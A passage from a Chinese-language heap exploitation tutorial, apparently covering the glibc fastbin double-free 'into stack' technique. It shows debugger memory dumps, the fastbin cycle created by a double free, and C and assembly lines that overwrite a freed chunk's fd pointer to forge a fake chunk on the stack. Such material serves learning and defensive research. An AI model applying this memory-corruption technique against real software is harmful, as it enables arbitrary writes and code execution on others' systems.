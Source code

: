 ```
gef➤  x/20gx 0x603010-0x10

0x603000:    0x0000000000000000    0x0000000000000021
0x603010:    0x0000000000000000    0x0000000000000000
0x603020:    0x0000000000000000    0x0000000000000021
0x603030:    0x0000000000603000    0x0000000000000000
0x603040:    0x0000000000000000    0x0000000000000021

Fastbin[0]  →   UsedChunk(addr=0x603030,size=0x20)   →   UsedChunk(addr=0x603010,size=0x20)
```

再次free a内存，此时fastbin形成了一个回路。此时完成一次double free操作，之后无论如何申请空间多少次，0x603010这个地址一直都在fastbin这个表中。这样便能完成对Free_Chunk的修改（对fd指针的修改）

```
Fastbin[0]  →   UsedChunk(addr=0x603010,size=0x20)   →   UsedChunk(addr=0x603030,size=0x20)   →UsedChunk(addr=0x603010,size=0x20) [无限循环略]
```

此时执行到unsigned long long *d = malloc(8)

再次将chunk_A原所在内存分配给了d

接下来再分配一次

聪明的读者到这里应该看得出，如果再分配几十次，也只会一直分配这两个地址。目前指针d已经指向了free_chunk_A(0x189e010)所以我们也就能修改其内容。

```
1st malloc(8): 0x189e010

2nd malloc(8): 0x189e030
```

Now the free list has [ 0x189e010 ].

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E6%89%8B%E6%B3%95"></a>利用手法

接下里的步骤是整个攻击的关键，取stack_var-8的地址，写入d覆盖FD指针。

即伪造了一个fake_chunk（为绕过size检查，size的位置必须为0x20或0x21）

```
stack_var = 0x20;
*d = (unsigned long long) (((char*)&amp;stack_var) - sizeof(d));
```

反汇编代码如下

```
0x000000000040091a &lt;+628&gt;:    lea    rax,[rbp-0x30]
   0x000000000040091e &lt;+632&gt;:    sub    rax,0x8
   0x0000000000400922 &lt;+636&gt;:    mov    rdx,rax
   0x0000000000400925 &lt;+639&gt;:    mov    rax,QWORD PTR [rbp-0x10]
   0x0000000000400929 &lt;+643&gt;:    mov    QWORD PTR [rax],rdx
```

伪造了一个Free chunk，查看内存，与我们的模拟图一致。
